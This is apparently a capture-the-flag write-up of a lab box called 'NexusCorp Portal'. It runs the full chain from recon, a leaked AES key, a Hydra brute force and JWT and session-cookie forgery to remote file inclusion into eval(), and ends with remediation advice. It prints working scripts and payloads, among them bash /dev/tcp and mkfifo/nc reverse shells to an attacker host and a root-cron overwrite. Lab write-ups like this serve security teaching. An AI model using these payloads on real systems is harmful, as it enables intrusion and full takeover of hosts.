



Kill Chain
Recon & Enumeration
Port scan
shell
sudo nmap -sS -sV -sC 10.49.131.163 -F -T3Two ports. Classic.
nmap output
22/tcp open ssh OpenSSH 9.6p1
80/tcp open http Apache/2.4.58 — NexusCorp Portal
Directory enumeration
shell
dirsearch -u http://10.49.131.163/Three hits worth noting:
config.enc and a README.txt that politely points us to static/app.js for "the decryption key reference". Because why not.auth/token.php for JWT issuance and files.php for file reading. More on both shortly.Laura, you had one job.
JS Secret Leak & AES Decryption
Opening /static/app.js in the browser reveals a TODO comment that never got done:
static/app.js
// Configuration (TODO: move to env before prod deployment - laura 2024-10-22)
const CONFIG = {
// Encryption key for backup config decryption - AES-ECB-128
// Key: N3xusK3y2024!! (pad to 16 bytes with \x00)
_backupKey: 'N3xusK3y2024!!',
};The AES-ECB-128 key is sitting in the frontend, readable by any browser that opens the page. The encrypted config is waiting in /backup/config.enc. Time to decrypt:
python3 — decrypt.py
from Crypto.Cipher import AES
key = b'N3xusK3y2024!!\x00\x00' # padded to 16 bytes
with open('config.enc', 'rb') as f:
data = f.read()
cipher = AES.new(key, AES.MODE_ECB)
decrypted = cipher.decrypt(data)
pad_byte = decrypted[-1]
if 1 <= pad_byte <= 16:
decrypted = decrypted[:-pad_byte]
print(decrypted.decode('utf-8'))output
{"app_name":"NexusCorp Portal","version":"2.3.1","deploy_env":"production","system_user":"devops"}system_user: devops — there is an active OS-level user named devops on this box. Filing that away for Step 7. It will become very relevant.Initial Access as robert.wilson (user)
Mapping devops to a real employee
Section 02 told us a system user called devops exists on the box. /team.php tells us which employee that is — and it's accessible without authentication:

firstname.lastname@nexus.corp format.Username convention: firstname.lastname. Two high-value targets — robert.wilson, the DevOps Engineer (this matches the devops system user from Section 02 — he's the one we want to crack), and laura.hayes, Chief Information Officer (almost certainly the admin role on the portal).
Hydra against the login form
shell — hydra
hydra -l robert.wilson -P ~/Downloads/rockyou.txt 10.49.131.163 \
http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid credentials"output
[80][http-post-form] login: robert.wilson password: $PASSThe DevOps engineer's password broke off rockyou in seconds. The irony writes itself.
Logging in as robert
Logging in lands us on a user-role dashboard. No admin panel, no flag — just whatever the regular employees see. The server sets a session cookie called nexus_session. Decoding it:
nexus_session — decoded
nexus_session = base64({"user_id":4,"username":"robert.wilson","role":"user"}).hmac_sha256(payload, APP_SECRET)user. To reach the admin panel and Flag 2, we need to become laura.hayes (role: admin). The session cookie is HMAC-signed with a server-side secret APP_SECRET — without it, we can't forge an admin cookie. That secret lives in auth.php on the server. We need a way to read server-side PHP source. Enter the API.JWT Forgery → File API → All Server Secrets
The /api/ directory we found during recon has two endpoints: auth/token.php (issues JWTs) and files.php (reads files, JWT-authenticated, admin-only). Robert can request a JWT — let's see what comes back:
shell — get JWT as robert
curl -s http://10.49.131.163/api/auth/token.php \
-H "Cookie: nexus_session=<robert_session>"response
{
"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJyb2JlcnQud2lsc29uIiwicm9sZSI6InVzZXIiLCAiZXhwIjoxNzM0MDAwMDAwfQ.<sig>"
}The JWT payload decodes to {"sub":"robert.wilson","role":"user",...}. Robert is, as expected, role user. The file API requires admin:
shell — try file API with user JWT
curl -s "http://10.49.131.163/api/files.php?name=../auth.php" \
-H "Authorization: Bearer <robert_token>"response
{"error":"Admin role required"}The signature check that wasn't
We forge a token with role: admin. For the signing secret we use N3xusK3y2024!! — the AES key we already extracted from app.js in Section 02. Why this one? Because we have it. Whether or not it matches the server's actual JWT secret is something we'll find out shortly:
python3 — forge_jwt.py
import hmac, hashlib, base64, json, time
def b64url(data):
if isinstance(data, str):
data = data.encode()
return base64.urlsafe_b64encode(data).rstrip(b'=').decode()
secret = b'N3xusK3y2024!!' # the AES key from app.js — using what we have
header = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}, separators=(',', ':')))
payload = b64url(json.dumps({
"sub": "robert.wilson",
"role": "admin",
"iat": int(time.time()),
"exp": int(time.time()) + 3600
}, separators=(',', ':')))
msg = f"{header}.{payload}"
sig = hmac.new(secret, msg.encode(), hashlib.sha256).digest()
print(f"{msg}.{b64url(sig)}")Send the forged admin JWT to the file API, asking for config.php:
shell — read config.php with forged admin JWT
curl -s "http://10.49.131.163/api/files.php?name=/var/www/html/config.php" \
-H "Authorization: Bearer $TOKEN"response — JSON-wrapped PHP source
{
"file": "/var/www/html/config.php",
"content": "<?php
define('DB_HOST', 'localhost');
define('DB_NAME', 'nexusdb');
define('DB_USER', 'app_user');
define('DB_PASS', '$PASS');
define('JWT_SECRET', '$JWT_SECRET');
define('APP_SECRET', '$APP_SECRET');
function get_db() {
$pdo = new PDO('mysql:host='.DB_HOST.';dbname='.DB_NAME, DB_USER, DB_PASS);
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
...
}"
}It works — but here's the punchline: the JWT_SECRET defined in config.php is not the AES key we just signed with. Two completely different values. The only way our forged token was accepted is if the server isn't actually verifying the signature at all. A quick look at auth.php (via the same file API) confirms it:
auth.php — the vulnerable snippet
// Signature check intentionally disabled
// if (!hash_equals($parts[2], $expected)) return null;Commented. Out. Any string in the signature slot would have passed. The server decodes the base64 header and payload, reads role: admin, and asks no further questions.
JWT_SECRET (purely academic — sig isn't checked), and crucially APP_SECRET — the missing piece for forging Laura's session cookie. Next section.Session Cookie Forge → Laura Admin
We've got APP_SECRET from config.php. Now we can mint a valid nexus_session cookie for laura.hayes (user_id=1, role=admin):
python3 — forge_cookie.py
import hmac, hashlib, base64, json
secret = b'$APP_SECRET' # extracted in Section 04
payload = json.dumps(
{"user_id": 1, "username": "laura.hayes", "role": "admin"},
separators=(',', ':')
)
b64 = base64.b64encode(payload.encode()).decode()
sig = hmac.new(secret, b64.encode(), hashlib.sha256).hexdigest()
print(f"{b64}.{sig}")Open browser DevTools, replace the nexus_session cookie value with the forged token, refresh the page:

Laura's dashboard also helpfully advertises the very endpoints we just exploited in Section 04 — the /api/files.php?name= file viewer and the /api/auth/token.php JWT issuer. The admins were always meant to use these tools; the vulnerability is that the access controls don't actually work.
RFI → RCE → Flags 1 & 3
files.php has one more trick beyond local file reads. If the name parameter starts with http://, it fetches the URL and passes the content straight to eval():
files.php — vulnerable snippet
if (strpos($name, "http://") === 0) {
$remote = @file_get_contents($name);
eval(str_replace("<?php", "", $remote));
}We host a PHP file on our attack machine and point the API at it. The server fetches it, strips the opening <?php tag, and executes it. Remote File Inclusion in 2024. Beautiful.
Serve the payload
shell — attack machine
python3 -m http.server 8888Read Flag 3
flag3.php — hosted locally
<?php echo shell_exec('cat /opt/flag3.txt'); ?>shell — trigger RFI
curl -s "http://10.49.131.163/api/files.php?name=http://<ATTACKER_IP>:8888/flag3.php" \
-H "Authorization: Bearer $TOKEN"Dump the database for Flag 1
The admin dashboard doesn't show Flag 1 anywhere — it's hiding in the notes column of the users table. Same RFI vector, different payload: a PHP file that opens a PDO connection with the DB credentials we extracted in Section 04 and dumps the users table.
query.php — hosted locally
<?php
$pdo = new PDO('mysql:host=localhost;dbname=nexusdb', 'app_user', '$PASS');
$stmt = $pdo->query('SELECT username, role, notes FROM users');
foreach ($stmt->fetchAll(PDO::FETCH_ASSOC) as $row) {
echo $row['username'] . ' | ' . $row['role'] . ' | ' . $row['notes'] . "\n";
}
?>shell — trigger RFI (db dump)
curl -s "http://10.49.131.163/api/files.php?name=http://<ATTACKER_IP>:8888/query.php" \
-H "Authorization: Bearer $TOKEN"response — JSON-wrapped output
{
"output": "laura.hayes | admin | THM{...}
michael.chen | user |
sarah.johnson | user |
robert.wilson | user |
emma.taylor | user | Q3 migration notes: infra review pending approval
david.brown | user |
james.wright | user | "
}Flag 1 sits in laura.hayes' notes column. Everyone else's notes are empty, except emma.taylor's Q3 migration mention (no flag, just an organizational footnote).
Reverse shell — www-data on the box
Same RFI vector, simpler payload. shell.php just calls system() with a bash reverse shell one-liner:
shell.php — hosted locally
<?php system('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1"'); ?>shell — listener + trigger
# attack machine — listener
nc -lvnp 4444
# trigger RFI — server fetches and executes shell.php
curl -s "http://10.49.131.163/api/files.php?name=http://<ATTACKER_IP>:8888/shell.php" \
-H "Authorization: Bearer $TOKEN"listener — shell drops
www-data@tryhackme-2404:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)We're www-data. Not root yet, but we're on the box.
Password Reuse → devops
pspy64 — what is root actually doing?
First thing as www-data — drop pspy64 on the target to see what root processes are firing. It snoops /proc and reports running PIDs without needing root itself:
shell — upload pspy64
# attack machine — serve the binary
python3 -m http.server 8888
# www-data shell on target
wget http://<ATTACKER_IP>:8888/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64Wait a minute and watch:
pspy64 output
2024/10/22 14:01:01 CMD: UID=0 PID=1337 | /bin/bash /opt/monitoring/health_report.sh
2024/10/22 14:02:01 CMD: UID=0 PID=1351 | /bin/bash /opt/monitoring/health_report.shUID=0, every minute, on the dot. That script is going on our list — we'll come back to it in Section 08.
Exploring /opt — admin_bot.py
www-data shell
ls -la /optoutput
drwxrwxrwx 5 root root 4096 May 7 20:26 .
drwxr-xr-x 22 root root 4096 May 29 22:14 ..
drwxrwxr-x 2 ubuntu ubuntu 4096 Apr 29 16:24 __pycache__
-rwxrwxrwx 1 root root 1870 May 7 20:26 admin_bot.py
-rw-r--r-- 1 www-data www-data 30 Apr 29 10:18 flag3.txt
drwxr-xr-x 2 root root 4096 Apr 29 10:27 monitoring
drwxr-xr-x 2 root root 4096 Apr 30 06:22 toolsadmin_bot.py owned by root, but rwxrwxrwx — world-readable, world-writable, world-executable. Whatever this script is, it's not protected. cat:
/opt/admin_bot.py — relevant snippet
#!/usr/bin/env python3
import time, re, base64 as b64, json, logging, hmac, hashlib
import requests
import pymysql, pymysql.cursors
logging.basicConfig(filename="/var/log/admin_bot.log", level=logging.INFO, ...)
DB_CONFIG = dict(host="localhost", database="nexusdb",
user="app_user", password="$PASS",
cursorclass=pymysql.cursors.DictCursor)
APP_SECRET = "$APP_SECRET"Password reuse — su devops
That DB password is the third place we've seen it now: config.php (Section 04), query.php connection string (Section 06), and now hardcoded in admin_bot.py. Two unrelated PHP/Python files, one DB password — and Section 02 told us a system user called devops exists. NexusCorp's password policy: pick one good password, use it everywhere. Worth a try:
www-data shell
su devops
Password: $PASS
devops@tryhackme-2404:/opt$In. SSH for a stable session and grab Flag 4:
attack machine
ssh devops@10.49.131.163
# password: $PASS
cat ~/user.txtdevops). Section 04 gave us the DB password. Section 07's admin_bot.py confirmed the password is reused everywhere. Three separate clues, assembled over five sections, clicked together in one su command.Cron PrivEsc → Root
Section 07's pspy64 already showed us the root cron — /bin/bash /opt/monitoring/health_report.sh, firing every minute as UID=0. Now as devops, let's see what we can actually do to it:
devops shell
ls -la /opt/monitoringoutput
drwxr-xr-x 2 root root 4096 Apr 29 10:27 .
drwxrwxrwx 5 root root 4096 May 7 20:26 ..
-rwxrwxr-- 1 root devops 127 May 30 00:07 health_report.shcat /opt/monitoring/health_report.sh
#!/bin/bash
# NexusCorp Health Monitoring ScriptOwned by root, group devops, and group-writable. We are devops. Root cron executes this script every minute. The fix is to overwrite it with our reverse shell:
devops — overwrite the script
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 9999 >/tmp/f' \
> /opt/monitoring/health_report.shattack machine — listener
nc -lvnp 9999Wait one minute. Cron fires. Shell drops.
listener — root shell
Listening on 0.0.0.0 9999
Connection received on 10.49.131.163 46408
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{...}chmod 750 with root:root ownership is the minimum; group-writable on a root-executed script is exactly the misconfiguration that ended this box.Vulnerability Chain
/static/app.js — key readable by any browser. Decrypted the backup config, leaked system_user: devops.robert.wilson — Hydra broke it in seconds against rockyou. Gave us an authenticated session and the ability to request a JWT.auth.php had the check commented out. The server accepted any token where the header and payload decoded correctly — signature was never verified. The actual JWT_SECRET in config.php was irrelevant.files.php?name= with no path restriction — readable any file on the server. Exposed the full config.php including APP_SECRET.APP_SECRET was extracted via the file API, the HMAC-signed session cookie could be minted for any user, including admin.files.php fetched attacker-controlled URLs and passed the content to eval(). Full RCE as www-data.devops OS account. One su command for lateral movement.health_report.sh writable by the devops group. Root executes it on a 1-minute tick. Instant privilege escalation.Key Takeaways
hash_equals($parts[2], $expected) turns JWT from "cryptographically verified identity" into "base64-encoded wishful thinking." The attacker doesn't need to know the disabled check exists — any forged token works on the first try.files.php?name=../../etc/passwd is a solved problem — use realpath(), validate against an allowed directory, and never construct filesystem paths from raw user input.files.php is the kind of code that should trigger an immediate PR rejection. If you need to include remote configuration, parse JSON. Do not execute arbitrary code fetched from a user-supplied URL.find /etc/cron* /opt -type f -perm -o+w or any script called by a root cron. If a non-privileged user can write to it, they own root.